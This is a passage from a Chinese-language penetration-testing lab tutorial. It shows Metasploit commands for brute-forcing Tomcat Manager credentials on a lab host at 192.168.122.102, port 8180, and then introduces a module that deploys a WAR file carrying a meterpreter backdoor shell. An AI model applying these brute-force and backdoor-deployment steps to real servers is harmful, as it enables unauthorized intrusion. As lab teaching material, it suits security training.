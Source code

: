 攻击模块代码：

+ [auxiliary/scanner/http/tomcat_mgr_login](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/tomcat_mgr_login.rb)



从扫描结果中可以看到 `8180`端口开放的状态，我们尝试一下是否能够攻击该端口，首先在 MSF 终端中，搜索 tomcat 模块，查找是否有相应的漏洞模块（速度太慢可以跳过搜索步骤）：

```
# 使用 search 搜索相应模块
search tomcat
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480471561538.png-wm)

使用 use 命令，选择相应的模块：

```
# 使用命令，选择相应模块
use auxiliary/scanner/http/tomcat_mgr_login

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480471975188.png-wm)

接着查看所要设定的必要参数，并用 set 命令，设置索要设置的参数：

```
# 显示所要设置的参数
show options

# 使用 set 设置相应的参数
set RHOSTS 192.168.122.102

# 设置相应的端口
set RPORT 8180
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480472334896.png-wm)


接着使用命令，进行攻击，暴力破解，跑出密码：

```
# 对所要渗透的目标主机，进行攻击
exploit
```


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480472456820.png-wm)


由图可以看出，前面符号为绿色的 + 号的，即为可用的成密码。


### 4.2 利用 Tomcat 密码进行渗透

由相应模块得到 Tomcat 密码之后，我们将利用密码，对目标主机进行渗透，使用模块 `exploit/multi/http/tomcat_mgr_deploy`，这个模块中的逻辑是登录 Tomcat Manager，然后执行一段 payload，而这段 payload 的作用就是使用 PUT 操作上传一个 war 包，这个 war 包中包含一个 jsp 文件来提供 meterpreter 后门 Shell。
